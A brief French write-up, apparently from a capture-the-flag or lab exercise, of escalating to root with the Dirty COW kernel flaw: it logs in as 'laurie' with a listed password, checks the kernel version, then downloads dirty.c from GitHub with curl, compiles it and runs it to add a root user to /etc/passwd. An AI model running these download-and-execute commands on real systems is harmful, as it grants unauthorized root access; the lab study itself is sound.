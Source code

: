 # Dirty Cow 

- Cette faille disponible sur les linux version 2.6.22 (2007) à 4.8.3 (2016) permet d'ecrire sur des fichiers accessible uniquement en lecture seule
- On se connecte donc a **laurie**:**330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4** en ssh
- On regarde par regarder la version du linux pour savoir si l'exploit est utilisable
```
$> uname -r

3.2.0-91-generic-pae
```
- L'exploit est donc compatible avec notre version de linux
- On lance donc l'exploit
```
curl -O https://raw.githubusercontent.com/FireFart/dirtycow/master/dirty.c
gcc -pthread dirty.c -o dirty -lcrypt
./dirty
```
- L'exploit arrive donc a ecrire un nouvelle utilisateur root dans /etc/passwd 

## Source
- [Explication](https://www.cs.toronto.edu/~arnold/427/18s/427_18S/indepth/dirty-cow/index.html#what-is-cow)
- [Excplication Youtube](https://www.youtube.com/watch?v=kEsshExn7aE)
- [Script](https://github.com/FireFart/dirtycow/blob/master/dirty.c)
